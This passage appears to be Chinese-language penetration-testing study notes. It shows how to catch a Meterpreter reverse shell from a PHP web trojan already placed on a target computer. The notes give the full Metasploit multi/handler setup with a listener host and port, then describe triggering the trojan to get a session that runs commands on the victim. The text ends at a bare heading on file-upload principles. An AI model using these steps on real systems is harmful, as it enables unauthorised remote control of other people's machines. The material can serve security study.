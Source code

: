 

比如把该木马放到了目标电脑上，

在kali里使用msf：

```
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverese_tcp
show options
set lport 4444
set lhost 10.3.32.95
run
开始监听
```

然后让目标触发该木马：

![image-20220116204730147](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20kali%E7%94%9F%E6%88%90%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC.assets/image-20220116204730147.png)

然后发现在转圈：

![image-20220116204756072](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20kali%E7%94%9F%E6%88%90%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC.assets/image-20220116204756072-164233727682914.png)

此时就已经连接上了：

![image-20220116204823261](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20kali%E7%94%9F%E6%88%90%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC.assets/image-20220116204823261.png)

然后可以让它执行一些命令例如shell等。

但是需要让它一直运行的话，就需要浏览器一直“正在连接”






# 文件上传原理



## 基本原理：
